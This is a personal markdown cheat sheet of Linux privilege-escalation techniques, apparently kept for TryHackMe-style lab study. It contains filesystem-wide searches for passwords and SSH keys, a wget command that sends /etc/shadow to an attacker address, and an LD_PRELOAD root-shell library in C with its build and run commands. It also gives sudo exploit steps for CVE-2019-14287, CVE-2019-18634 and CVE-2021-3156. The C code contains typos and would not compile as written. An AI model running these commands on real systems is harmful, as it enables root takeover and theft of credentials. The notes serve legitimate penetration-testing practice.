 **1. Basics**
**2. SUIDS, LD_PRELOAD, && CVE's**
**3. Log4j**
**4. References**

---

**1 Basics::**
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---

##**2. SUIDS, LD_PRELOAD, && CVE's**##

**CVE's && LD_PRELOAD::**
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see ![brute_force_cms_script](screenshots/CMS_made_simple_brute_force.png) && "fun_brute_force_script"

**CVE-2019-14287::**
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


**CVE-2019-18634::**
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See ![cve](screenshots/cve_2019_18634.png)
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

**CVE-2021-3156 Baron Samedit::**
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See ![is_vuln?](screenshots/cve_2021315.png)
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See ![sudo_root_cve_20211316](screenshots/cve_2021315_make_run.png)
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`
TODO:: Escalation via shared object injection

---

##**3. Log4j**##

##**CVE-2021-44228 log4j::**##
TODO:: 
# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```